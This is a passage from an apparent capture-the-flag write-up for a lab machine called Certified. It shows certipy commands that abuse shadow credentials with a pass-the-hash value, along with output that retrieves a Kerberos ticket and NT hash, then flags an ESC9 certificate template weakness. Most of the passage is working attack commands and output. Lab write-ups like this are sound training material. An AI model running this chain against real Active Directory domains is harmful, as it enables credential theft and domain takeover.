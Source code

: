 ```
sudo ntpdate 10.10.11.41 ;certipy shadow auto -target certified.htb -username management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584  -account ca_operator -dc-ip 10.10.11.41
2025-05-30 04:11:50.746520 (+0200) +25200.329784 +/- 0.007767 10.10.11.41 s1 no-leap
CLOCK: time stepped by 25200.329784
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_operator'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '4317a398-85e6-a509-24aa-89a2bd9c877f'
[*] Adding Key Credential with device ID '4317a398-85e6-a509-24aa-89a2bd9c877f' to the Key Credentials for 'ca_operator'
[*] Successfully added Key Credential with device ID '4317a398-85e6-a509-24aa-89a2bd9c877f' to the Key Credentials for 'ca_operator'
[*] Authenticating as 'ca_operator' with the certificate
[*] Using principal: ca_operator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ca_operator.ccache'
[*] Trying to retrieve NT hash for 'ca_operator'
[*] Restoring the old Key Credentials for 'ca_operator'
[*] Successfully restored the old Key Credentials for 'ca_operator'
[*] NT hash for 'ca_operator': b4b86f45c6018f1b664f70805f45d8f2
```

## Using ESC9 to get the Administrator´s NTLM hash
Now that we have the NTLM hash for the ca_operator user we could go on a bunch of different tangets to try to find a way to the Admin user but come on, lets be honest, the name of the box is Certified. We can run certipy on this account which shows that the DC is vulnearble to ESC9.

```
certipy find -u ca_operator@certified.htb -hashes b4b86f45c6018f1b664f70805f45d8f2 -stdout -vuln
Certipy v5.0.2 - by Oliver Lyak (ly4k)
<SNIP>
Certificate Authorities
  0
    CA Name                             : certified-DC01-CA
    DNS Name                            : DC01.certified.htb
<SNIP>
Certificate Templates
  0
    Template Name                       : CertifiedAuthentication
    Display Name                        : Certified Authentication
    Certificate Authorities             : certified-DC01-CA
<SNIP>
    [+] User Enrollable Principals      : CERTIFIED.HTB\operator ca
    [!] Vulnerabilities
      ESC9                              : Template has no security extension.
    [*] Remarks
      ESC9                              : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
```
